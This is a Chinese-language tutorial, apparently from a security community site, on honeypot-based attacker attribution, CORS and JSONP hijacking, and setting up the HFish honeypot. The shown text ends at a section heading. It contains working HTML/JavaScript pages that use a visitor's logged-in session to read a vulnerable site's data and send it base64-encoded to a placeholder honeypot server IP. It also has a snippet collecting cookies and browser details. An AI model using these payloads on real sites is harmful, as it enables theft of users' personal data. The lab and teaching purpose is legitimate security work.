# 蜜罐溯源以及蜜罐HFish的使用 - 先知社区

蜜罐溯源以及蜜罐HFish的使用

- - -

# 一、蜜罐是什么？

蜜罐技术本质上是一种对攻击方进行欺骗的技术，通过布置一些作为诱饵的主机、网络服务或者信息，诱使攻击方对它们实施攻击，从而可以对攻击行为进行捕获和分析，了解攻击方所使用的工具与方法，推测攻击意图和动机，能够让防御方清晰地了解他们所面对的安全威胁，并通过技术和管理手段来增强实际系统的安全防护能力。

# 二、蜜罐溯源

蜜罐溯源是指通过反向追踪技术，对网络攻击的源头进行定位和追踪，以发现攻击者的真实身份和意图。这种技术通常被用于网络安全领域，以保护企业和个人的网络系统安全。  
通俗易懂的话来说，一旦踩上蜜罐，蜜罐溯源就像是警察通过监控摄像头追踪小偷一样。在互联网上，攻击者可能会利用各种手段来攻击网络系统，就像小偷一样。而蜜罐溯源技术则是为了追踪这些攻击者的踪迹，发现他们的真实身份和意图，以便采取相应的措施来保护企业和个人的利益。

web蜜罐收集个人信息使用的技术主要有两种，分别是JSONP跨域劫持和XSS。在学习jsonp之前，需要了解浏览器的同源策略

## （1）同源策略

同源策略是由Netscape提出的一个著名的安全策略，现在所有支持JavaScript 的浏览器都会使用这个策略，同源策略用于限制从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。不同源的客户端脚本在**没有明确授权的情况下，不能读写对方资源**。(DOM、Cookie、第三方插件以及XMLHttpRequest)，其中带src属性的标签不受同源策略的限制  
例如  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108194028-9d330d88-7e2b-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107202918-45293832-7d69-1.png)  
**疑问点一：怎么判断是否同源**  
如果两个URL的 protocol(http或https)、port(如果有指定的话)和 host 都相同的话，则这两个URL是同源，有一个不相同就为非同源。

**疑问点二：为什么百度网盘可以获取百度的信息？"pan.baidu.com"和"www.baidu.com" 不是不同源吗？**  
百度清楚百度网盘是属于自己的资产  
百度会在自己的一些反代服务器例如nginx配置CORS，配置的内容为：允许pan.baidu.com访问百度的信息

**疑问点三：CORS是什么？**

-   CORS 是“跨域资源共享”（Cross-Origin Resource Shareing）的缩写，它是一种用于在Web应用程序中进行跨域请求的安全机制。跨域请求是指在一个网页中通过浏览器向不同限制域名（或协议、端口）的服务器请求资源，如数据、图片、脚本等。通常，由于同源策略（同源策略）的，用户会阻止跨域请求，以保护的安全和隐私。
    
-   CORS 允许服务器在 HTTP 响应头中添加一些特定的 HTTP 标头，以指示哪些域是被允许的跨域请求来源，以及哪些 HTTP 方法和头信息是被允许的。这使得网页可以来自不同的域请求CORS 的机制提供了一种在客户端和服务器之间共享跨域资源的安全方法。
    
-   通常，要启用CORS，服务器端需要配置响应头中的一些信息，例如Access-Control-Allow-Origin，Access-Control-Allow-Methods等Access-Control-Allow-Headers。客户端（浏览器）会在发起跨域请求时检查这些响应头，控件是否允许跨域请求。
    

**疑问点四：在这里引入CORS的意义在哪？**  
当网站配置CORS设置的时候发送错误就会导致cors漏洞产生（跨域漏洞），这将会恰恰成为蜜罐的利用点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107204157-0a17a5ec-7d6b-1.png)  
**疑问点五：为什么百度网盘可以引用腾讯新闻的图片？**  
因为图片img是不受同源策略的限制的，在上文同源策略的定义中有提及，另外还包括  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108194117-ba9de9e2-7e2b-1.jpg)

**测试CORS：**  
我们可以在网页按F12打开控制台，在控制台中输入以下命令

```plain
req = new XMLHttpRequest()
req.open("GET","https://www.baidu.com")
req.send()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107205326-a48ed66c-7d6c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107205559-ffdf1cc0-7d6c-1.png)

# 三、蜜罐怎么做

蜜罐要做的，就是找到很多网站的跨域漏洞，且这些跨域漏洞能够获取用户的信息，例如qq号、手机号、邮箱、百度ID、微博ID、google ID、搜狗ID、360 ID、联想ID、金山ID 等(注意: 任何时候公开商漏洞均为违法行为，所以开源的蜜罐没有这个功能)，如果踩到蜜罐的黑客使用的浏览器中已经登录了这些网站，就会被获取到敏感信息，从而被溯源。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107211618-d613ae80-7d6f-1.png)  
tip：渗透测试的时候打开无痕模式并在虚拟机中测试可以最大程度的减少蜜罐对我们在渗透过程中带来的危害

# 四、跨域隐患

## （1）CORS漏洞演示

使用靶场：DoraBox（查看附件）  
CORS是一个W3C标准，允许浏览器向跨域服务器发出XMLHttpRequest请求

**实验步骤：**

一：搭建DoraBox靶场：  
打开小皮面板开启服务，创建网站，在根目录中放入DoraBox

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107215029-9cfade84-7d74-1.png)  
打开网站测试效果  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231107215209-d81957ac-7d74-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107215258-f59b4768-7d74-1.png)  
这个网站记录的是我们的信息（手机号码、邮箱等等）我们的目的就是通过蜜罐获取到这些信息

**二：配置该网站只允许本地访问**

如果使用phpstudy2018版本，只要在apache配置文件httpd.conf 加上Listen 127.0.0.1:80即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108105102-a7260254-7de1-1.png)  
如果使用的是小皮面板，那么则需要在phpstduy\\phpstudy\_pro\\Extensions\\Apache2.4.39\\conf\\vhosts这个路径下的listen.conf将内容修改为

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108105237-e029fdc6-7de1-1.png)  
之后可以打开命令行输入netstat -ano |findstr 80 显示所有与端口 80（通常是 HTTP）相关的网络连接的详细信息，包括与每个连接关联的进程标识符

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108105921-d0da7138-7de2-1.png)  
打开kali看看能不能访问，显然是不行的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108111203-96dc8a82-7de4-1.png)

**三：利用DoraBox网站的CORS漏洞来制作一个简易的蜜罐**

用kali作为服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231108112235-0fea9d5a-7de6-1.png)  
这里要特别注意'有CORS漏洞的网站'写的是127.0.0.1是因为蜜罐是挟持访问者去访问而不是kali自己去访问，并且我们已经限制了kali无法访问到CORS漏洞的网站

```plain
<!DOCTYPE html>
<html>
<head>
    <title>CORS TEST</title>
</head>
<body>
    <div id='output'></div>
    <script type="text/javascript">
            var req = new XMLHttpRequest(); 
            req.onload = reqListener; 
            req.open('get','有CORS漏洞的网站',true); 
            //req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;"); 
            req.withCredentials = true;
            req.send();
            function reqListener() {
                new Image().src="http://蜜罐服务器IP:10002/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(req.responseText))))  // 要接收敏感信息的攻击机监听端口
            };
    </script>
</body>
</html>
```

这里的代码执行了以下操作：

-   创建一个新的XMLHttpRequest对象（req），它能够发起对服务器的异步HTTP请求。
-   设置req的onload事件监听器为reqListener函数。当请求完成并返回数据时，这个函数会被调用。
-   使用req.open方法准备一个GET请求，目标URL为"有CORS漏洞的网站"。这意味着请求会从一个不同的源（即此HTML页面所在的源）向另一个源（即"有CORS漏洞的网站"）发起。
-   设置withCredentials属性为true，这意味着请求会携带证书（如cookies, HTTP认证，或客户端SSL证明）。这通常用于在需要用户验证的情况下保持用户会话。
-   使用req.send方法发送请求。
-   reqListener函数做了以下事情：  
    使用new Image().src创建一个新的Image对象，并将它的源设为"蜜罐服务器IP:10002/"加上经过编码和转义的请求文本响应的Base64编码。这意味着攻击机器（即蜜罐服务器）可以监听这个端口并尝试接收敏感信息

在kali打开监听，注意要在当前目录用python3开启监听  
python3 -m http.server 10002

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108112716-b7760924-7de6-1.png)

**四：模拟黑客踩蜜罐**

现在在本地访问蜜罐地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108112929-0686e81c-7de7-1.png)  
此时此刻回到kali，可以看到已经有反应了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108113028-29e26a0c-7de7-1.png)  
将get后面的参数复制下来进行base64解码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108113237-76cca3fa-7de7-1.png)  
可以看到所有的信息都被我们kali机获取到了，这就是蜜罐的威力

## （2）JSONP

JSONP是JSON with padding (填充式JSON或参数式JSON)，是一种为了跨域获取资源而产生的一种技术手段。这是一种非官方的协议。  
**JSONP实现跨域的原理**：  
同源策略限制了不同源的站点通过ajax获取信息，但是web页面调用is文件则不受跨域的影响并且凡是拥有src属性的标签都可以跨域请求，如scriptimg等标签。JSONP正是利用这种原理去实现了跨域请求。  
JSONP劫持从JSONP的原理中可以看出这种方式实现了数据的跨域访问，如果网站B对网站A的JSONP请求没有进行安全检查直接返回数据，则网站B 便存在JSONP漏洞，网站A利用JSONP漏洞能够获取用户在网站B上的数据。  
这种漏洞与CSRF非常相似，只不过CSRF只是发送数据去达到一定的目的，而JSONP劫持是为了获取返回的敏感数据

```plain
// jsonp 演示页面
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>JSONP EXP跨域测试</title>
</head>
<body>
<script>
function test(json){
new Image().src="http://蜜罐服务器IP:10002/" + JSON.stringify(json) // 攻击机准备接收的地址和端口
//alert(JSON.stringify(json))
}
</script>
<script src="有jsonp漏洞的网站url callback=test"></script> 
</body>
</html>
```

下面是对代码的逐行解释：

-   <!DOCTYPE html>：声明这是一个HTML5文档。
-   `<html lang="en">`：定义HTML文档，并设置文档的根语言为英文。
-   `<head>`：定义文档的头部信息，这些信息不会直接显示给用户。
-   <meta charset="UTF-8">：设置文档的字符集为UTF-8。
-   <title>JSONP EXP跨域测试</title>：设置文档的标题。
-   </head>：结束文档头部。
-   `<body>`：定义文档的主体部分，即用户可以在浏览器中看到的内容。
-   `<script>`：定义一个JavaScript脚本块。
-   function test(json){：定义一个名为test的函数，该函数接收一个名为json的参数。
-   new Image().src="[http://蜜罐服务器IP:10002/](http://xn--ip-fr5c86lx7zzi7agol:10002/)" + JSON.stringify(json)：创建一个新的Image对象，并设置其源为一个URL，该URL由蜜罐服务器的IP地址和端口号以及经过JSON.stringify方法处理后的json参数组成。这样做的目的是将获取的数据发送到蜜罐服务器。注意：这段代码将数据公开发送，这在实际环境中是非常危险的，因为它可能导致敏感信息的泄露。
-   alert(JSON.stringify(json))：这是一个弹出框，用于显示从存在JSONP漏洞的网站获取的数据。这里使用JSON.stringify(json)将数据转换为字符串形式以在弹出框中显示。
-   }：结束test函数。
-   `<script src="有jsonp漏洞的网站url callback=test"></script>`：通过`<script>`标签引入一个外部JavaScript文件。这个文件应该来自一个存在JSONP漏洞的网站，其中的callback参数指定了处理从该网站返回的数据的函数（在这里是test函数）。这意味着当该外部脚本加载时，它会调用test函数，并将从该网站获取的数据作为参数传递给它。
-   `</body>`：结束文档主体。
-   `</html>`：结束HTML文档。

# 五、js获取敏感信息

```plain
// 获取当前访问页面的cookie信息
document.cookie 

// 获取当前访问的url 
window.location.href

// 获取当前访问的路径
window.location.pathname

// 加载新的页面
window.location.assign("http://xxxx");

// navigator 对象 （蜜罐）
txt = "<p>浏览器代号: " + navigator.appCodeName + "</p>";
txt+= "<p>浏览器名称: " + navigator.appName + "</p>";
txt+= "<p>浏览器版本: " + navigator.appVersion + "</p>";
txt+= "<p>启用Cookies: " + navigator.cookieEnabled + "</p>";
txt+= "<p>硬件平台: " + navigator.platform + "</p>";
txt+= "<p>用户代理: " + navigator.userAgent + "</p>";
txt+= "<p>用户代理语言: " + navigator.language + "</p>";

// 弹窗
alert("hello");

// 确认弹窗
confirm("xxx");

// 输入框
prompt("请输入你的名字","Harry Potter");
```

代码解释如下

-   document.cookie：这个表达式会返回当前文档的所有cookie，作为一个字符串。如果文档没有cookie，那么返回的将是空字符串。每个cookie都是以分号和空格分隔的。
-   window.location.href：这个表达式返回的是当前窗口的完整URL。
-   window.location.pathname：这个表达式返回的是当前窗口的URL路径名，不包括主机名和查询字符串。
-   window.location.assign("[http://xxxx/](http://xxxx/) ")：这个方法会加载指定的URL，并将其设置为当前窗口的文档。
-   navigator 对象：这是一个包含了关于浏览器的信息对象。你所展示的代码是获取了各种浏览器相关的信息，例如浏览器代码名称（appCodeName）、名称（appName）、版本（appVersion）、是否启用了cookies（cookieEnabled）、硬件平台（platform）、用户代理（userAgent）以及用户代理语言（language）。
-   alert("hello")：这个函数会在一个新的弹出窗口中显示给定的消息字符串。
-   confirm("xxx")：这个函数会显示一个带有确定和取消按钮的对话框，并返回一个布尔值。如果用户点击确定按钮，返回值为true；如果用户点击取消按钮，返回值为false。
-   prompt("请输入你的名字","Harry Potter")：这个函数会显示一个带有文本输入框和确定按钮的对话框。在用户点击确定按钮后，它会返回输入框中的文本。在这个例子中，文本框的默认文本是"Harry Potter"。

# 六、蜜罐使用

## (1) 开源蜜罐搭建与使用（hfish）

### A. 基本信息

Hfish蜜罐是一款社区型免费的中低交互蜜罐，侧重企业安全场景。它有内网失陷检测、外网威胁感知、威胁情报生产三个场景，通过安全、敏捷、可靠的中低交互蜜罐增加用户在失陷感知和威胁情报领域的能力。

### B. 安装

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163536-ca0aada8-7e11-1.png)  
安装完成之后打开网站输入[https://127.0.0.1:4433/web/login](https://127.0.0.1:4433/web/login)  
默认账号admin 密码HFish2021

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163558-d776a442-7e11-1.png)  
在这个位置可切换为中文

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108163614-e0b4b21a-7e11-1.png)

### 使用

#### A-节点管理

